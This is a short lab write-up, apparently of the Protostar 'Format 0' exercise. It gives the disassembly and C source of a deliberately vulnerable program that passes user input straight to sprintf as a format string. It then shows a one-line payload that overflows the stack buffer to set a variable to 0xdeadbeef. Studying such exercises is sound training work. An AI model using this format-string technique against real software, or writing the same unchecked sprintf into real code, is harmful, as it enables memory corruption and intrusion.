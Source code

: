 # Format 0

## Problem

```gdb
Dump of assembler code for function main:
0x0804842b <main+0>:    push   ebp
0x0804842c <main+1>:    mov    ebp,esp
0x0804842e <main+3>:    and    esp,0xfffffff0
0x08048431 <main+6>:    sub    esp,0x10
0x08048434 <main+9>:    mov    eax,DWORD PTR [ebp+0xc]
0x08048437 <main+12>:   add    eax,0x4
0x0804843a <main+15>:   mov    eax,DWORD PTR [eax]
0x0804843c <main+17>:   mov    DWORD PTR [esp],eax
0x0804843f <main+20>:   call   0x80483f4 <vuln>
0x08048444 <main+25>:   leave
0x08048445 <main+26>:   ret

Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
```

We can see from `<vuln+6>` that the target variable is at `ebp-0xc`. We could solve
the problem through a buffer overflow by using 64char followed by `0xdeadbeef`
but our hint is to solve the question in 10bytes of input.

## Idea and Attack process

We do a bit of searching for format string attacks and we learn that using `%`
followed by a numerical digit allows us to inject characters without generating
them. We can see that the buffer is 64 characters and we inject 64 digits followed
by the target.

```bash
./format0 $(python -c "print '%64d\xef\xbe\xad\xde'")
>>> you have hit the target correctly :)e
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
